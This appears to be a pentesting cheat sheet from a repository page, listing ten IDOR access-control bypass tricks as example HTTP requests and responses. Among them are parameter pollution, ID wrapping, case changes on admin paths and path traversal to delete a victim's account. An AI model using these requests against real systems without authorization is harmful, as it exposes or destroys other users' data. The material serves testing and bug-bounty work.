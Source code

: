 # IDOR
## IDOR (Insecure Direct Object Reference)

Insecure direct object references (IDOR) are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly. The term IDOR was popularized by its appearance in the OWASP 2007 Top Ten. However, it is just one example of many access control implementation mistakes that can lead to access controls being circumvented. IDOR vulnerabilities are most commonly associated with horizontal privilege escalation, but they can also arise in relation to vertical privilege escalation.

## 1. Bypassing Object Level Authorization:
```
Add parameters onto the endpoints for example, if there was
GET /api/v1/getuser                 >>>      GET /api/v1/getuser?id=1234
GET /api_v1/messages --> 401        >>>      GET /api_v1/messages?user_id=victim_uuid --> 200
vs 

```
## 2. HTTP Parameter pollution
```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK
GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]

JSON 
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

## 3. Add .json to the endpoint
```
GET /v2/GetData/1234  >>> GET /v2/GetData/1234.json
[...]
```

## 4. Test on outdated API Versions
```
POST /v2/GetData                 POST /v1/GetData
[...]                  >>>>      [...]
id=123                           id=123
```
## 5. Wrap the ID with an array.
```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

## 6. Wrap the ID with a JSON object
```
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
```

## 7. Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
dmljdGltQG1haWwuY29t => victim@mail.com
```
## 8. If the website using graphql, try to find IDOR using graphql!
```html
GET /graphql            --> 401 Unauthorized
GET /graphql.php?query= --> 200 OK
```

## 9. MFLAC (Missing Function Level Access Control)   
```
GET /admin/profile --> 401 Unauthorized
GET /ADMIN/profile --> 200 OK
```
## 10. Path Traversal:
    POST /users/delete/VICTIM_ID --> 403 Forbidden
    POST /users/delete/MY_ID/../VICTIM_ID --> 200 OK     


Source: https://www.notion.so/IDOR-Attack-vectors-exploitation-bypasses-and-chains-0b73eb18e9b640ce8c337af83f397a6b 
